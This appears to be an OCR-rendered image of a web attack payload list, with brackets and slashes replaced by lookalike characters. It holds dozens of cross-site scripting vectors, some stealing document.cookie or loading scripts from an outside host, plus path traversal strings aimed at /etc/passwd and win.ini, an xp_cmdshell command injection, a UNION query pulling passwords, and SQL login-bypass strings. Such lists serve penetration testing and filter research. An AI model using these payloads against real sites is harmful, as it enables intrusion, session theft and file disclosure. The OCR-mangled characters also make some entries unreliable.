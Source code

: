 `》《script》alert(document.cookie)《|script》
=`》《script》alert(document.cookie)《|script》
《script》alert(document.cookie)《|script》
《script》alert(vulnerable)《|script》
%3Cscript%3Ealert(`XSS`)%3C|script%3E
《script》alert(`XSS`)《|script》
《img src=``javascript:alert(`XSS`)``》
%0a%0a《script》alert(\``Vulnerable\``)《|script》.jsp
%22%3cscript%3ealert(%22xss%22)%3c|script%3e
%2e%2e|%2e%2e|%2e%2e|%2e%2e|%2e%2e|%2e%2e|%2e%2e|etc|passwd
%2E%2E|%2E%2E|%2E%2E|%2E%2E|%2E%2E|windows|win.ini
%3c|a%3e%3cscript%3ealert(%22xss%22)%3c|script%3e
%3c|title%3e%3cscript%3ealert(%22xss%22)%3c|script%3e
%3cscript%3ealert(%22xss%22)%3c|script%3e|index.html
%3f.jsp
%3f.jsp
《script》alert(`Vulnerable`);《|script》
《script》alert(`Vulnerable`)《|script》
?sql_debug=1
a%5c.aspx
a.jsp|《script》alert(`Vulnerable`)《|script》
a|
a?《script》alert(`Vulnerable`)《|script》
``》《script》alert(`Vulnerable`)《|script》
`;exec%20master..xp_cmdshell%20`dir%20 c:%20》%20c:\inetpub\wwwroot\?.txt`--##
%22%3E%3Cscript%3Ealert(document.cookie)%3C|script%3E
%3Cscript%3Ealert(document. domain);%3C|script%3E#
%3Cscript%3Ealert(document.domain);%3C|script%3E#SESSION_ID={SESSION_ID}#SESSION_ID=
1%20union%20all%20select%20pass,0,0,0,0%20from%20customers%20where%20fname=
http:||www.cnblogs.com|http:||www.cnblogs.com|http:||www.cnblogs.com|http:||www.cnblogs.com|etc|passwd
..\..\..\..\..\..\..\..\windows\system.ini
\..\..\..\..\..\..\..\..\windows\system.ini
``;!--``《XSS》=#{()}
《IMG src=``javascript:alert(`XSS`);``》
《IMG src=javascript:alert(`XSS`)》
《IMG src=JaVaScRiPt:alert(`XSS`)》
《IMG src=JaVaScRiPt:alert(``XSS``)》
《IMG src=javascript:alert(`XSS`)》
《IMG src=javascript:alert(`XSS`)》
《IMG src=##x6A##x61##x76##x61##x73##x63##x72##x69##x70##x74##x3A##x61##x6C##x65##x72##x74##x28##x27##x58##x53##x53##x27##x29》
《IMG src=``jav ascript:alert(`XSS`);``》
《IMG src=``jav ascript:alert(`XSS`);``》
《IMG src=``jav ascript:alert(`XSS`);``》
``《IMG src=java\0script:alert(\``XSS\``)》``;` 》 out
《IMG src=`` javascript:alert(`XSS`);``》
《SCRIPT》a=|XSS|alert(a.source)《|SCRIPT》
《BODY BACKGROUND=``javascript:alert(`XSS`)``》
《BODY ONLOAD=alert(`XSS`)》
《IMG DYNSRC=``javascript:alert(`XSS`)``》
《IMG LOWSRC=``javascript:alert(`XSS`)``》
《BGSOUND src=``javascript:alert(`XSS`);``》
《br size=``#{alert(`XSS`)}``》
《LAYER src=``http:||xss.ha.ckers.org|a.js``》《|layer》
《LINK REL=``stylesheet`` href=``javascript:alert(`XSS`);``》
《IMG src=`vbscript:msgbox(``XSS``)`》
《IMG src=``mocha:[code]``》
《IMG src=``livescript:[code]``》
《META HTTP-EQUIV=``refresh`` CONTENT=``0;url=javascript:alert(`XSS`);``》
《IFRAME src=javascript:alert(`XSS`)》《|IFRAME》
《FRAMESET》《FRAME src=javascript:alert(`XSS`)》《|FRAME》《|FRAMESET》
《TABLE BACKGROUND=``javascript:alert(`XSS`)``》
《DIV STYLE=``background-image: url(javascript:alert(`XSS`))``》
《DIV STYLE=``behaviour: url(`http:||www.how-to-hack.org|exploit.html`);``》
《DIV STYLE=``width: expression(alert(`XSS`));``》
《STYLE》@im\port`\ja\vasc\ript:alert(``XSS``)`;《|STYLE》
《IMG STYLE=`xss:expre\ssion(alert(``XSS``))`》
《STYLE TYPE=``text|javascript``》alert(`XSS`);《|STYLE》
《STYLE TYPE=``text|css``》.XSS{background-image:url(``javascript:alert(`XSS`)``);}《|STYLE》《A class=``XSS``》《|A》
《STYLE type=``text|css``》BODY{background:url(``javascript:alert(`XSS`)``)}《|STYLE》
《BASE href=``javascript:alert(`XSS`);||``》
getURL(``javascript:alert(`XSS`)``)
a=``get``;b=``URL``;c=``javascript:``;d=``alert(`XSS`);``;eval(a+b+c+d);
《XML src=``javascript:alert(`XSS`);``》
``》 《BODY ONLOAD=``a();``》《SCRIPT》function a(){alert(`XSS`);}《|SCRIPT》《``
《SCRIPT src=``http:||xss.ha.ckers.org|xss.jpg``》《|SCRIPT》
《IMG src=``javascript:alert(`XSS`)``
《!--#exec cmd=``|bin|echo `《SCRIPT SRC```--》《!--#exec cmd=``|bin|echo `=http:||xss.ha.ckers.org|a.js》《|SCRIPT》```--》
《IMG src=``http:||www.thesiteyouareon.com|somecommand.php?somevariables=maliciouscode``》
《SCRIPT a=``》`` src=``http:||xss.ha.ckers.org|a.js``》《|SCRIPT》
《SCRIPT =``》`` src=``http:||xss.ha.ckers.org|a.js``》《|SCRIPT》
《SCRIPT a=``》`` `` src=``http:||xss.ha.ckers.org|a.js``》《|SCRIPT》
《SCRIPT ``a=`》``` src=``http:||xss.ha.ckers.org|a.js``》《|SCRIPT》
《SCRIPT》document.write(``《SCRI``);《|SCRIPT》PT src=``http:||xss.ha.ckers.org|a.js``》《|SCRIPT》
《A href=http:||www.gohttp:||www.google.com|ogle.com|》link《|A》
admin`--
` or 0=0 --
`` or 0=0 --
or 0=0 --
` or 0=0 #
`` or 0=0 #
or 0=0 #
` or `x`=`x
`` or ``x``=``x
`) or (`x`=`x
` or 1=1--
`` or 1=1--
or 1=1--
` or a=a--
`` or ``a``=``a
`) or (`a`=`a
``) or (``a``=``a
hi`` or ``a``=``a
hi`` or 1=1 --
hi` or 1=1 --
hi` or `a`=`a
hi`) or (`a`=`a
hi``) or (``a``=``a[|code]